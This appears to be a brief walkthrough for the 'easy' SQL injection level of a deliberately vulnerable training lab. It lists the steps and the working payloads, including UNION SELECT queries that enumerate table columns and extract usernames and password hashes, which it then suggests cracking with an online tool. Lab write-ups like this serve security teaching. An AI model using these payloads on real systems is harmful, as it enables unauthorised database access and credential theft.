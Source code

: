 ## SQL injection Easy

0. Use a brower inspector to check http requests
 - Headers: HTTP Get request
 - Payload: query string parameters
 - Cookies: PHPSESSION, security level

1. Get  Error
`SELECT first_name, last_name FROM users WHERE user_id = '''`

2. Get the number of columns
`1' order by 1`
`1' order by 2`
`1' order by 3`


3. Get columns from user table
`' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name like 'user%'#`

4. Get id & pwd
`' UNION SELECT user, password FROM users#`

5. Crack the password
crackstation


